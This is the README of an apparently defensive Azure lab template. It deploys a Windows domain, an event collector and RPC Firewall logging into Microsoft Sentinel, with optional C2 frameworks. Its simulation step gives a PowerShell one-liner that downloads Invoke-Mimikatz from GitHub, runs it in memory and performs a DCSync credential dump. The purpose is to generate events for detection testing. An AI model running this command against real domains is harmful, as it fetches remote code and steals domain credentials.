 # Windows 10 + Domain Controller + Windows Event Collector (WEC) + RPC Firewall Project 

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FWin10-RPCFW%2Fazuredeploy.json)
[![Deploy to Azure Gov](https://aka.ms/deploytoazuregovbutton)](https://portal.azure.us/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FWin10-RPCFW%2Fazuredeploy.json)

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
    * [Windows Security Events via AMA](https://docs.microsoft.com/en-us/azure/sentinel/data-connectors-reference#windows-security-events-via-ama) data connector enabled.
    * [Data collection rule (DCR)](https://docs.microsoft.com/en-us/azure/templates/microsoft.insights/datacollectionrules?tabs=json) to collect Windows Security events.
    * [Windows RPC Firewall parser](https://raw.githubusercontent.com/OTRF/Microsoft-Sentinel2Go/master/microsoft-sentinel/linkedtemplates/parsers/winRPCFWLogs.json).
* One Windows Active Directory domain (One Domain Controller)
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * Windows [Azure Monitoring Agent](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-overview?tabs=PowerShellWindows) installed. It connects to the Microsoft Sentinel Log Analytics workspace defined in the template.
    * [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) installed.
    * [RPC Firewall config](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/rpcfirewall/RpcFw.conf) used.
* One Windows Event Collector (WEC)
    * Windows [Azure Monitoring Agent](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-overview?tabs=PowerShellWindows) installed. It connects to the Microsoft Sentinel Log Analytics workspace defined in the template.
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * [WEC configured](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/powershell/auditing/Configure-WEC.ps1).
    * [Application Windows event subscriptions](https://github.com/OTRF/Blacksmith/tree/master/resources/configs/wef/subscriptions) deployed.
* Windows 10 Workstations (Max. 10)
    * [Data Collection Rule (DCR) association](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/data-collection-rule-azure-monitor-agent#data-collection-rule-associations)
    * Windows [Azure Monitoring Agent](https://docs.microsoft.com/en-us/azure/azure-monitor/agents/azure-monitor-agent-overview?tabs=PowerShellWindows) installed. It connects to the Microsoft Sentinel Log Analytics workspace defined in the template.
    * [Windows Event Forwarding (WEF) client configured](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/powershell/auditing/Configure-WEF-Client.ps1).
    * [RPC Firewall](https://github.com/zeronetworks/rpcfirewall) installed.
    * [RPC Firewall config](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/rpcfirewall/RpcFw.conf) used.
* [OPTIONAL] Command and Control (c2) options:
    * `empire`
    * `covenant`
    * `metasploit`
* Remote Access Restrictions (`AllowPublicIP` default option)
    * Access via Azure Bastion (Recommended. Additional costs applied)
    * Restrict Access to one Public IP Address (For example, Home Public IP Address)

## Validate Deployment

## Simulations

### Monitoring Directory Replication Service (DRS) Remote Protocol

1. Validate that the domain controller contains the `RpcFw.conf` file in the `C:\ProgramData` folder.
2. Validate that the following entry exists in the config file:

```
uuid:e3514235-4b06-11d1-ab04-00c04fc2dcd2 action:allow audit:true
```

3. Open PowerShell and run the following commands:

```PowerShell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -Command '"lsadump::dcsync /domain:azsentinel.local /user:azsentinel\pgustavo" "exit"
```

4. Check Event Viewer > Applications and Services Logs > RPCFW

## References:
* https://github.com/Cyb3rWard0g/WinRpcFunctions
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0